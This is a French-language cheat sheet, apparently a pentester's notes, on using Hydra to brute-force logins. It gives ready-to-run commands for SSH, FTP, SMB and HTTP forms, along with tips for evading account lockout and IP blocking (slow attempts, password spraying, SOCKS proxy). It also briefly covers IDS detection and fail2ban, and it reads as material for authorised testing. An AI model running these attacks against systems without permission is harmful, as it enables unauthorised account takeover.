

Ce diagramme illustre le flux opérationnel lors d'une attaque par force brute utilisant **Hydra** contre un service distant.



## Brute force simple

```bash
hydra -l <username> -p <password> <target> <service>
```

## Utilisation de listes

### Liste de mots de passe
```bash
hydra -l <username> -P <password_list> <target> <service>
```

### Liste d'utilisateurs
```bash
hydra -L <user_list> -p <password> <target> <service>
```

### Listes combinées
```bash
hydra -L <user_list> -P <password_list> <target> <service>
```

## Configuration des threads et délais

### Spécifier un port
```bash
hydra -s <port> -l <username> -P <password_list> <target> <service>
```

### Limiter le nombre de threads
```bash
hydra -t <threads> -l <username> -P <password_list> <target> <service>
```

### Définir un délai entre les tentatives
```bash
hydra -w <timeout> -l <username> -P <password_list> <target> <service>
```

## Options de sortie

### Cacher les tentatives infructueuses
L'option **-f** permet d'arrêter l'exécution dès qu'une paire valide est trouvée.
```bash
hydra -f -l <username> -P <password_list> <target> <service>
```

### Exporter les résultats
```bash
hydra -l <username> -P <password_list> -o <output_file> <target> <service>
```

## Attaques web (http-post-form)

La syntaxe nécessite le chemin, les paramètres et le message d'erreur renvoyé par le serveur en cas d'échec.

```bash
hydra -l <username> -P <password_list> <target> http-post-form "<path>:<parameters>:<error_message>"
```

> [!warning]
> Le mode verbeux **-V** est indispensable pour déboguer les erreurs de syntaxe sur les formulaires web. Privilégier des outils comme **Burp Suite Intruder** pour le web afin de mieux gérer les tokens CSRF ou les cookies de session.

## Gestion des politiques de verrouillage de compte (Account Lockout)

Le brute-force agressif déclenche souvent des mécanismes de défense (Account Lockout Policy). Il est crucial d'estimer le seuil de tentatives autorisées avant blocage.

| Méthode | Description |
| :--- | :--- |
| **Low and Slow** | Utiliser l'option `-w` pour espacer les requêtes et éviter les seuils de détection basés sur le temps. |
| **Password Spraying** | Tester un seul mot de passe courant sur une large liste d'utilisateurs pour éviter le verrouillage d'un compte unique. |

> [!danger]
> Attention au verrouillage de compte : un brute-force trop rapide peut bloquer l'accès à l'utilisateur ciblé. Toujours vérifier la politique de sécurité de la cible avant de lancer un brute-force massif.

## Analyse des logs et détection IDS/IPS

Les attaques par brute-force génèrent un volume important de logs (ex: événements 4625 sous Windows, échecs SSH dans `/var/log/auth.log`). Les solutions IDS/IPS détectent les patterns de connexion répétitifs.

- **Détection** : Surveillance des pics de tentatives d'authentification infructueuses depuis une IP source unique.
- **Atténuation** : Utilisation de fail2ban ou de solutions EDR pour bannir l'IP attaquante.

## Techniques de contournement (proxy, rotation d'IP)

Pour éviter le blocage par IP, il est possible de passer par des proxys ou des services de rotation.

```bash
# Utilisation d'un proxy SOCKS5
hydra -x 127.0.0.1:9050 -l user -P pass.txt ssh://target
```

## Utilisation de Hydra avec des fichiers de configuration

Hydra permet de charger des options complexes via un fichier de configuration pour éviter les lignes de commande interminables.

```bash
# Créer un fichier hydra.conf ou utiliser les arguments dans un fichier
hydra -C config_file.txt
```

## Différence entre brute-force et credential stuffing

Il est essentiel de distinguer ces deux approches dans le cadre de vos **Password Attacks** :

- **Brute-force** : Tentative systématique de deviner un mot de passe pour un compte spécifique (souvent via dictionnaire ou force brute pure).
- **Credential Stuffing** : Utilisation de listes d'identifiants (username:password) fuitées lors de compromissions précédentes sur d'autres services. Voir la note **Credential Stuffing Techniques** pour plus de détails.

## Exemples par service

### Syntaxe par protocole
```bash
# FTP
hydra -l user -P passwords.txt ftp://192.168.1.10

# SSH
hydra -l root -P passwords.txt ssh://192.168.1.10

# HTTP Auth
hydra -l admin -P passwords.txt http://192.168.1.10

# SMB
hydra -L users.txt -P rockyou.txt smb://10.129.91.172 -V
```

### Exemple complet
```bash
hydra -L users.txt -P passwords.txt -t 4 -s 2222 -o hydra_results.txt 192.168.1.10 ssh
```

> [!note]
> Ces techniques s'inscrivent dans une méthodologie globale incluant **Password Attacks**, **Service Enumeration**, **Web Application Attacks** et **Credential Stuffing Techniques**.